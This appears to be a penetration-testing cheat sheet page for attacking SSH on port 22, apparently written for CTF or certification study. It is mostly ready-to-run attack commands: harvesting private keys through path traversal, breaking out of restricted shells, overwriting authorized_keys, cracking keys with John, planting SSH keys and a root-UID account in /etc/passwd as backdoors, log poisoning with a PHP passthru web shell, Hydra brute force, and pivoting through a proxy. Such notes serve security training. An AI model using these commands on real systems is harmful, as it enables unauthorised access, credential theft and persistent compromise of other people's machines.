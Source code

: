 ```yaml
---
layout: default
title: SSH
parent: TCP
nav_order: 4-2
---
```

# SSH | 22
## Methodology
- Do you have valid credentials?
- Do you have real system-level users in which to access SSH with?
- ALWAYS check for user password re-use
- Dealing with id_rsa files - ALWAYS chmod 600 id_rsa
- Collect user SSH keys if able to read: "id_rsa" e.g. somefile.php?file=../../../../home/user/.ssh/id_rsa
- If able to write, drop a SSH key into the user or root directory for login (/root/.ssh/id_rsa)
- Are you able to read the SSH logs (SSH Log Poisoning): /var/log/auth.log

<br/>
###  Restrictive Shell
If you have access to the <i>echo</i> command it is possible to use the built-in API to break out:
<br />
```echo os.system("/bin/bash")```
<br />
Break out of <b> RBash </b>:
``` ssh restricted@$IP -p 31678 -t "bash --noprofile"
OR 
ssh user@$IP "/bin/sh"```

<br />

### SSH Access Denied - pty restricted
- If you can read the 'authorized_keys' file, you may see there is a 'no-pty' option
- We may be able to replace this file if we have an SSH key for the target user using <b>scp</b> with a public key. 
Copy the authorised key, remove the 'no-pty' option  and then place it back on the target, overwriting the blocking file

``` scp -i id_rsa authorized_keys dude@192.168.150.150:.ssh/authorized_keys ```

> This uses an id_rsa key we have previously obtained for a user called 'dude' and replaces authorized_keys with our modified file

Note: If you are not allowed to produce output on the target, use the -O flag

``` scp -O  -i id_rsa authorized_keys dude@192.168.150.150:.ssh/authorized_keys ```


<br />
### Check the following locations for private keys:
<ul>
<li>/home/* </li>
<li>/root/.ssh/* </li>
<li>/etc/ssh/ssh_config</li>
<li> /etc/ssh/sshd/ssh_config</li>
<li> ~/.ssh/*</li>
</ul>

<br />
### Identify the host for the private key:
Check the following locations:
<ul>
<li> /etc/hosts </li>
<li> ~/.known_hosts </li>
<li> ~/.bash_history </li>
<li> ~/.ssh/config </li>
</ul>

<br />

### Command Reference
<b> Search for files containing SSH Keys:</b> <br />
```grep -ir "-----BEGIN RSA PRIVATE KEY-----" /home/*``` <br />
```grep -ir "BEGIN DSA PRIVATE KEY" /*``` <br />

<b> SSH with id_rsa </b> <br />
``` ssh -i id_rsa user@$IP ``` <br />

<b> Crack id_rsa with John (SSH2John) </b> <br />
``` ssh2john id_rsa > crackthis
john crackthis --wordlist=/usr/share/wordlists/rockyou.txt```

<b> SSH Keygen & Back Door (post exploitation) </b> <br />
Generate a new SSH key pair with: <br />
```ssh-keygen -b 2048 -t rsa -f ~/.ssh/new-key-name
chmod 600 new-key-name``` <br />
Drop the 'new-key-name.pub' file into the target /home/usr/.ssh directory. <br />
Connect with: ```ssh -i new-key-name user@$IP```
<b> Add a backdoor as a user </b>
- If you have write access either or via a shell script or other method, append a custom user
```
openssl passwd -1
I.R.noob
$1$istMeAqZ$bjVoxT/.whgAs3t3eNcM3/
echo 'backup:$1$istMeAqZ$bjVoxT/.whgAs3t3eNcM3/:0:0:backup:/home/backup:/bin/bash' >> /etc/passwd
su backup
```
<br />

### Tools
- <a href="https://github.com/pwnesia/ssb"> Secure Shell Bruteforcer (SSB) </a> <br />
```curl -sSfL 'https://git.io/kitabisa-ssb' | sh -s -- -b /usr/local/bin ``` <br />
```ssb [-p port] [-w wordlist.txt] [-t timeout]
      [-c concurrent] [-r retries] [-o output] [user@]hostname```

<br />
### Attacks
<b>SSH Log Poisoning</b>
(RCE via SSH Log Poisoning)
Example PHP web server (capable of viewing the logs):
- Enter something like: ```testlogpoisoning/<?php passthru($_GET['cmd']); ?>``` 
- Refresh the accessible log page - find the newest entry (towards the bottom) and you may see the characters 'testlogpoisoning/'
> This verifies command execution after the format '/' providing executive authority over the machine
``` https://example.com/somefile.php?file=../../../../var/log/auth.log&cmd=id ```
> reopen the file, scroll down and find the results of the command printed

<br />
<b> SSH Brute Force</b>
- Hydra
``` hydra -V -L UserList -P PasswordList ssh://$IP ```
- SSB

<br />

#### SSH 'should' be running?
- Is there a HTTP proxy on the server? SSH may be running but not open to the world - instead of on 0.0.0.0, it may be local on 127.0.0.1
- If this is the case, it is possible to forward out the loopback address with <b> proxytunnel </b>
``` proxytunnel -p $IP:3128 -d 127.0.0.1:22 -a 4444 ```
> Spawn a daemon on our attacking machine (accessible on 4444)
``` ssh user@127.0.0.1 -p 4444 ```

<br />

###### [REFERENCES]
<a href="https://highon.coffee/blog/ssh-lateral-movement-cheat-sheet/#what-is-a-lateral-movement"> SSH Lateral Movement Cheatsheet </a>
